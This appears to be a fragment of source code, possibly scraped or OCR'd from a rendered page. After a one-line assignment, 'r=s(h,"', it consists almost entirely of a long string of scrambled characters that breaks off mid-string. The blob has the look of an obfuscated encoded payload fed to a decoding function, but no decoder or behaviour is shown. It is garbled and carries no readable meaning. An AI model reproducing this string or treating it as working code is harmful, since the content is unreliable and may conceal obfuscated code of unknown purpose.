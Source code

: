 r=s(h,")hRYAzwX7Us81l_v_17hA-et1Y7sAtjt1*X_vll1UY{_vA_+sYzXRRJYlY7uA5+D8_ARv_1hw7q_ch_RsWzYhY_RA_AhhllhUhzYRPpYl_7iAdLd8_YYRwlYUhwYRR1vsFJ_lw8AsYz1hhlXUlz1Lv7_X_zhll88UlzFhXlsUYhXAYVw1q7fAav_XRzlhl_,sh7Yw1bH1y7KY_8w7vwAhY7_7vj_RhlhsJzXh__RA_whRYlzUzzYRh_RUXzlh1slA_Y7hllXU1O_RRlwUYO_vRlXshzhhl_BURJvAY<U1o7qApv_7hwRBv_*A_YwRYl.1Y71A&^%1uX_vUlXU1zz1_8sUYzzTvlhsX7YA1,c1=7FY_8_sZzYh8lXsYz8vll1UswXAYhh1+7FAov_XswYhhlUsX%_vOlsUlzhhU_hA_YwRYlo1Y7wAk?o1WX_SXsv76Ywv8{Y1872A%H&8_ARv8lXsYz8hX7_XwwYhF9Ylh7IAa*^8_A!xvlXshzY1_1vA_YAhsllU_z_Gv7_wG7YAv&<1D7-Y_1hsRwYhR7_X7wYh8l_A_Ylh?lNsX7YAl<!1>7TY_1hsYz8hX_R7hzhR&lXU_wRRhIY1s70A{JI8_YYRwlYUhwYRRlYA_hvAYR71E7cA?v_X_w*hll7UYzhRR7_wvwYRRllA_AA_Y7_zwYARYl1UhzXhll17v^_h1llA_Y_hhUlX8zlhWlXUszYlX>Y1w7uA%^e8_YzRa1vUhzYAYhz1>7*ALv_XhAvh8lYsEAv1_1RUlwzhY_>A_YRhYlAUYz1RhlY1Y77AVI/1ZX_v8llswD_vw_YU#7YAvQ:1a7}Y_svU1zXh8lYA_AA9vl1UzwY0v_qUR7YA76F1&7QY_177vz_1_8wsYzdAYnw1C7?A-v_U_wbhXl1sR7Yz82W157:Y_8YswzYhh_YsRAvRG7_7hzhRSlXU_wR1_8zsXz81_8sUYAvhz_YUY7YA7(41.7cY_1HsYAv1_lwsYzbAYRw1E7+A-v_XAh_R*_RsYzXl__YshT_hw_YUd#_lw8AsYz1hhlXUlz1Wv7_U1zl1_8_Uhhlv8llUGzXhslYzX7YzX(u1V7VY_svU1zXh8lYA_AhRR_HUXzUhY7_7hzXh8_YUsAvRRllsJ7YzRKG1e7/Y_8sUXzARRlXU1zz1_1hUXz8RYls7vwRhl_o1Y7UA=9&1iX__vlRUlz_RR7_X8zYAYJU1.7*Abv_XRzYh1lzA_YwRYlL1Y7UA(yB1FX_v81vUXz11_8wsYz^AYts137GAIv_X1zYRw_Ysh._vw_YUc7YA1=W1(7oY_8RUlz8kvlRUXzh1_8wsYzWAYx_1075Adv_XRAvh1lRsXhzRh7_7zzlRLlsUR7YzR(H1c7JY_8_UYwR1_1hUXz8RYls7vwRhl_xA_RX_XlR1Y7sA;Va1KX_TRllsHAv1_8XshY8hY<YlA7+AVK68_Y<hYlYA_AhRz1vsQz81_1hUXz8RYls7vwRhl_L1Y7UA,qi1IX_vsllUsQ_vUlXU1zzAYWU1d7GA,v_7hzYRR_RUXz1hz_h1Y7UAqS-1fX_ihllUswh1_1aU1zzAYbs1q7pAiv_wvw7RY_=UY5_lvU1w>7YAUrE1>7gY_svsRzwhY_PXwwYh4FY1X7^AcWZ8_Y8hlllU1F_cwQY1s7ZA9,e8_Y3hs1vUhzUhUlXU1zzAYWs1M7oA>v_XAzlRSlzUYj_vw_YU!7YwATd1Q7*Y_8AsYwRRY_!UYF_RYl_URAvRRlYshT_RzlXUszs1_l4UY:_hslXshwRhYlRA_zwhY_%UYh1AYH71e7<Ajv_XRzXRhlhUlw hRpY1s7%Aip!8_YYRwlYUhwYRRlYA_R*AY>_1^72Afv_Xhzw5vlXs&wzVv_oUY<_vw_YUJ7dA2%S1f7xALM31e1dAYEU1}7HA=v_XhAvhslsUiAvhhlU1YURA/EO1IX_vR_?7vzzhll1A_RvhR_AUYz1RR_YsmzYRhHY1_7{AJGm8_Y_RGllU7zYhh_RA_Y1hY_wsYwhAYVs1(7(A-v_74wXhpllszj_vw_YUq7YzYtV1!7#Y_887vzR1_8hUXwRRX7_Xhzwgvl_sRzYRK7_wu7YAsDH1P7{Y_8OUszlRw_XA_YwRYlO1Y71A{ o1+X_vR_YU1zzhYllU1O_=>81Xz7YzUO#157!Y_8YswzYhh_YsRAvR,7_7Yz1hX_AUYw.Rh1vUs3__vlRU8zXh1kY_w7xAOmC8_Y8RYlssRzXh_lsUYf_Rhlhs!zXh__Rsh4_hAllsr!_v_8hzlY8hllFUXzshY7_7vzRhRlYURuvAYRA1i7iA:v_7wx_4Yl1UXwAhY_NshAvhs7_zwYARYl1UhzXhll17v>_h1llA_Y_hhUlX8zlh9lXUszYlX&Ylw7=AD6D8_RvRWl8A_AzRblYshwRhslYA_AhhXl8sYzsVv_RUlwgAYhh1D7 A.v_7Yz1hX_AUYwxRh1vUsP_,hlhsjzXh__R1Y77A6qk1uX_+h8_7X=_vY1hX_7YAl*L1y7fY_1h7vzURY_C7v?_Lh_R7vz1hRFY1_70A34*8_A7hll8UjzXhY7_wvwRRR1vUhzUAYE81^7mA/v_Xpw.hlllUUYw6v_AUYz1AY/_1G7!AVv_7RzlRzlYs}!_vllAA_YwhYlsUs7Yzwj?1k7,Y_8hUwzYhY_hUYT_vA1vUhwRhl_!sXc_:R_XUhzlhll11Y7XA:6<1dX_&VlXU_r_MAsF1YUsA,#P1pX_v8llUlz1JhlYUhAlJh_RsMzXh1lzshYwhXlRURzYh1svsRwRRa2Y1l7jAN3d8_Ys/hl1URzXvA_XUYJ_vw_YUE7YwR<I1(7xY_8ssYz15v_wA_YwRYlSA_hwvA_YU1zhhXllU1Av1_l1Ulc_v_lhzlY8hllLUXzshYUX1YU1AdIB1OX_LRlwUYT_dh_Rs.zlh1lzUYwhRR7_X9AvRR_RUszYhz_;UlwYh1lRsh7Yz7%+1n7PY_8RUYAvhRlssX!_uhlXU1wh1_1GUYwRRVlXUWwYRRlXUlz1AYh11O7BA<v_sNzdRw1vshwhhY_RUXzR_7UlzlRXl_sAwwRY_XsRzvRh_msAwYRX_h{Y177*Auxn8_Y_RKlYshzXh1lY1Y7vAbH;1<X_v_lw7vz1RRllU85_vAlls}zhhY_h1Y71Ao=F1,X_vwlXURzYv__^UYz8hX_YU87YA1,a127&Y_1hU_zYhYlRA_A4RYl1A_RRAYEs1+7CA&v_X7AvhXlsUEwihY1vUU7Yzh{*1m7/Y_1hUYwRRRlXU1zzRh7_7hzYhh_RUXzlh1bY1776AZSe8_zYRwlYUhwYRRlY1YUZA!OW1oX_vA_QsYzXRR_hA_AzGv_BsazXhl_csh7YAU--1K7<Y_8ls:zXhll1XszXhbfY1z7ZA-ET8_Y1?vl8UY7YAsS91t7NY_svsRzwhY_eA_YwRYlH1g7KAri;1-7eAkv-vv7YAwSF1V7}Y_8YsAAvhRlY1Y7vA6aE1SX_vllwX8wXvzlYUwzshYlYA_YwRYlb1YU1Ab<W1EX_vh1vU8zYR61vA_ARhl_zUYwO1_8RUYzAhYl1shzY1_1/UYzyhl_MU17Ywh>e1m7jY_1h7vz1hRlYsJg_2w7_zwYARYl1UhzXhll17vm_h1llA_Y_hhUlX8zlh(lXUszYlXoY1z7CA}M/YA_hsRw1Rz7YA1^K1N73Y_1hsYzzRY_usYG_hzlYsRzlAYh81b7mAyv_XsAYvh8U7XL_v(8sXlYhvU1hA_Yxiv_RsRzshYlzsrzlRYl1URwhAY-_1T7BAWv_7(zYtvlsU8o_eI1vU8z_cvlzUY7YAs4m1*7?Y_8_sKzlh7lYUhwR1_1A1YUwAp:L1NX__vl1UXz8hY7_7hwRrv_Nsh<_QhlXU8wYhs1vsRzlREZY1U7ZAxJ,8_A7hY_#z_I_vw_YUo7YAs5#1H7nY_1HUXz1h1_hA_YwRYlp1YU4AJDZ15X_hR8wXRAvhUlz7xwYRRllXYYX h887A7YA1(?1V7{Y_8hUlz1h1lYUhwR1_8wsYz,AYhA1J7aAVv_XYwwhYlhsYwR5v_IA_Y<hs1vURzY1_837vzshskY1_7/Ai=M8_Yhyv_GA_A7hll1UY#_v-lYsRAvAYal1:7yAtv_wvz1hXl8UYN_^hlw7vzRhl_z1YUvATrH15X_*7lYU_zwRX_6A_hwvA_YU1zhhXllU1Av1_l1UlE_v_lhzlY8hll(UXzshYUX1Y7sA>NB1 X_bhlwUXz1RX7_XwwYhrGY187 AEZx8_Y8avlUUYAzhXl1URzlRzEY1s7}A!>T8_YYRwl_UszlRR8AUXz1AYhR1L7EAtv_XhAvRP7_7+AvhhlYA_AhhXl8UsAvRRllsP7Yz!g/1{7LY_8JsQzlhUlYU16_v:llU1zYRh7_XXAAAY(s1 7fArv_XAzs3v_uUYi_vw_YU+7YA7fx1J7HY_887vzUhY1R7vz=AYnU1a7DAEv_7hzlRYl_A_YwRYlV1Y77AZcV1gX_v11vsYx_vw_YUy7YwAi.1!7FY_1hU_zYhYlRA_YwRYlgA_Aw1_UwXAwYh1lhUXzlh11vA_z1hl7_X_zhll88Ulz4hXlsUYhXAYO1137HAnv_XAAvRL_RA_Ahhh_TUXz_RRDY1l7FA}gd8_Ahhs1vU_M_v{1vsRwRhslYsh7YA_yo1.7>Y_1hsRw>hYlYsRw71_1z7vwP1_sf1Y71A6{&1^X_xJ1vUhzhhlllU1B_vw_YUq7Yzh,q1I7CY_svU1zXh8lYA_YsPv_hsRp_*h_R7vz1hRLh1Y7UA0I}1}X_v8lYU8zY1_1hUYAvAYhU107}A&v_7hzshXl8UYc_3hls7vwXhXl1Uz:_vll1UszXh1lYA_AQv_8z1YUwAy:j12X_hRlXshzhhl_=URh1hzlzzlY1RXlwU6AAR78zwwzvR7;Y1l7;ADg=8_Rv1_8RsYwhRR_XA_ARR4lXU_7YAv;/1O7CY_1%7vw(hX_RsXN_vA1vUhwRhl_isX7YzhVa1!7.Y_1hsYwIRAlXsAAvhs7_7hwRhl_3UXzYRhCY177fAp9E8_YMhllnA_YwRYlr1YULAtM61CX_vG1vsRzwRLllUlz81_svsRwRkvlhUU7YAsgp1u7QY_1hsXz1hX_wA_YwRYl#1YUsA6Jp12X__vl1UXz8hY7_XhzwJvl8U_zXhll1shn_%hlXU8wYhs1vsRzlR+*YlA7jAaF/8_AThY_hsRAvRY_M7vz1RR7_7RwXhhllUlz11_s%1Y7UAP-r1MX_-hlhsfzXh__RA_hvAYxY1.7MAuXYYz_RAYhw1q7?AQv_XhAvR47_XRzYPvlsUYw%RhlwUXz_1_1RsXzhhlllU17Yzw4r1G7%Y_8_s